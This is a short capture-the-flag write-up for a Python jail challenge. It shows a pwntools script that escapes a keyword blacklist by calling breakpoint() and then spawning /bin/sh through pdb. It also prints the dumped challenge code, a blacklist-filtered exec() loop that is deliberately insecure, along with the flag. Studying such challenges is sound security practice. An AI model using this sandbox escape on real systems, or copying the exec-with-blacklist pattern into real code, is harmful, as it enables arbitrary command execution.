

# Baby's First Pyjail 

### Challenge:
##### @windex told me that jails should be sourceless. So no source for you.  
##### Author: SteakEnthusiast

##### Links: ```nc 35.226.249.45 5000```

### Solution:

Simple introductory challenge to pyjails, there were many solutions possible.
I opted to use a simple payload which bypassed the blacklist and gave me a shell:

```py
from pwn import *

r = remote("35.226.249.45", 5000)

r.sendline(b"breakpoint()")
r.recvuntil(b"Pdb")
r.sendline(b"import os; os.system('/bin/sh')")

r.interactive()
#uoftctf{you_got_out_of_jail_free}
```

This is the dumped challenge file from the shell if curious:
```py
blacklist = ["import", "exec", "eval", "os","open","read","system","module","write", "."]

while True:
    print(">>>", end=" ")
    try:
        cmd = input()
        for i in blacklist:
            if i in cmd:
                raise Exception("try harder")
        exec(cmd)
    except Exception as e:
        print(e)
```

Flag: ```uoftctf{you_got_out_of_jail_free}```